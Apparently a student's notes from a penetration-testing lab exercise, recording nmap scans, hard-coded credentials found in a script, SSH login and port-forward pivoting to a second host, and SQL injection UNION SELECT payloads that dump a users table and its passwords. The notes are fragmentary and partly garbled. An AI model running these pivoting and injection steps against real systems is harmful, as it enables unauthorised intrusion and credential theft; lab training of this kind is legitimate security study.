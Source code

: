 ignore .190 
ignore 10.10.x.x
there are 5 boxes but ignore the .190
get root or admin on 2 of the boxes
.ssh/known host file 
HAST : 10.50.90.39.220

`student@lin-ops:~$ nmap -T4 -Pn -sV 10.50.39.220`
`student@lin-ops:~$ nmap --script http-enum 10.50.39.220`
see running ssh(22) and http(80)
go on web @ ip using firefox
run http enum script see different web pages
find development.py with:
```
#!/usr/bin/python3
import os
system_user=user2
user_password=EaglesIsARE78
##Developer note
#script will eventually take above system user credentials and run automated services
```
found:
"Notice: Undefined index: username in /var/www/html/login.php on line 43
Notice: Undefined index: passwd in /var/www/html/login.php on line 44
Try Again"
use creds to log in using ssh
`student@lin-ops:~$ ssh user2@10.50.39.220`
situational awareness


made MS socket
`student@lin-ops:~$ ssh -MS /tmp/red user2@10.50.39.220`

somehow found ip for new box to go to
$ cat /etc/hosts.allow
192.168.28.181 is the BestWebApp
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1601:192.168.28.181:80`
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20table_schema,column_name,table_name%20FROM%20information_schema.columns`
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20user_id,name,username%20FROM%20siteusers.users`
found passwords, encoded in rot13
Aaron - apasswordyPa$$word
user2 - EaglesIsARE78
user3 - Bob4THEEapples




